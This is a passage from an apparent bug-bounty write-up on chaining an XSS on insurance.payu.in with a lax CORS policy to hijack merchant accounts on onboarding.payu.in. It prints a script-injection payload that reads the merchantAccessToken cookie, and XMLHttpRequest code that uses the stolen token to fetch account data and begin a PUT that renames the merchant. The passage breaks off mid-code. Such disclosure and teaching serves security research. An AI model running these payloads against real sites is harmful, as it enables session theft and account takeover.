 above function can be used to fetch cookies value by its name. Lets say we had a cookie

`Cookies: merchantAccessToken=DummyAccessToken` 

so to fetch the value of *merchantAccessToken* we had to use getCookie("merchantAccessToken") so our payload would be this:

```
email"><script>function getCookie(name){var re = new RegExp(name + "=([^;]+)"); var value = re.exec(document.cookie);return (value != null) ? unescape(value[1]) : null;};alert(getCookie("merchantAccessToken"));</script>
```

Now we got the authentication token and It's time to get the UUID for that I had to make request to https://onboarding.payu.in/api/v1/merchants with authentication header so I used *XMLHttpRequest* for this but their is also a condition to use this and the condition is that [CORS](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS) (Cross-Origin Resource Sharing) should be present in website.

So I checked the CORS in onboarding.payu.in and found that we were only allowed to change origin to any subdomain of payu.in and that's what we need :)

Now we can make request to onboarding.payu.in as an authenticated user because we had a XSS at insurance.payu.in. We were going to use **XMLHttpRequest** as mentioned earlier. I used this JavaScript code to make request

```javascript
var auth = getCookie("merchantAccessToken");
var xhttp = new XMLHttpRequest();
xhttp.onreadystatechange = function() {
  if (this.status == 200) {
      //fetch the merchant information that contains uuid
      console.log(this.responseText)
  }else{
      console.log("Login into payu.in to exploit further");
  }
}; 
xhttp.open("GET", "https://onboarding.payu.in/api/v1/merchants", true);
xhttp.setRequestHeader("Authorization", "Bearer "+auth);
xhttp.setRequestHeader("Content-Type", "application/json");
xhttp.send();
alert("exploited");

```

this above javascript code will make a GET request to onboarding.payu.in/api/v1/merchants with authentication token and then display information of my account which includes the uuid of my account.

![image](../../../assets/images/payu-xss-5.png){: .imagePopup}

Now can had to make a PUT request to onboarding.payu.in/api/v1/merchants/<UUID> where UUID will be the uuid that we got from the above request so let's see how we can we do that in Java Script.

```javascript
var auth = getCookie("merchantAccessToken");
var xhttp = new XMLHttpRequest();
xhttp.onreadystatechange = function() {
if (this.status == 200) {
  var resp = JSON.parse(this.responseText);
  var uuid = resp.merchants[0]["uuid"];
  var postBody = "{\"merchant\":{\"name\":\"HACKED\"}}";
  var targetURL = "https://onboarding.payu.in/api/v1/merchants/"+uuid;
  var auth = getCookie("merchantAccessToken");
  var xhttpExploit = new XMLHttpRequest();
  xhttpExploit.onreadystatechange = function(){
  if (this.status == 200) {
    console.log("exploit completed!");
  }
};
xhttpExploit.open("PUT", targetURL, true);
```